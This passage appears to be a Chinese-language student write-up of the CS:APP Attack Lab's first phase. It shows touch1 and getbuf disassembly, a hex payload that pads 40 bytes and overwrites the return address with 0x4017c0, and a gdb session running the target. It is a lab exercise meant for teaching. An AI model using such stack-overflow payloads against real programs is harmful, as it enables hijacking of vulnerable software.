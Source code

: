 正常情况下，函数会执行到那行`printf`，而我们的任务是不让它走这条路，而是执行别的函数。

### 1. touch1()

我们要执行的函数如下：

```c
void touch1() {
    // ...
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

只要触发就算赢！我们直接看`touch1()`的汇编：

```asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  ...
```

可以看到`touch1()`的地址是`0x4017c0`。

接下来要决定这个地址放在哪里，所以我们看一下`getbuf()`的汇编，看看它栈空间开了多大：

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

开了 40 字节。因此，我们把地址放到 40~48 字节处，如下：

```
64 64 64 64 64 64 64 64 # useless bytes(5 * 8)
64 64 64 64 64 64 64 64
64 64 64 64 64 64 64 64
64 64 64 64 64 64 64 64
65 65 65 65 65 65 65 65

c0 17 40 00 00 00 00 00 # address
```

为了查看效果，我们开一下 gdb:

```
(gdb) b * 0x4017a8
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) b * 0x4017b9
Breakpoint 2 at 0x4017b9: file buf.c, line 16.
(gdb) run -q < <(./hex2raw < exploit_c1.txt)
Starting program: /home/asterich/code/labs/csapp/3-attack/ctarget -q < <(./hex2raw < exploit_c1.txt)
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.
(gdb) continue
Continuing.

Breakpoint 2, 0x00000000004017b9 in getbuf () at buf.c:16
16      in buf.c
```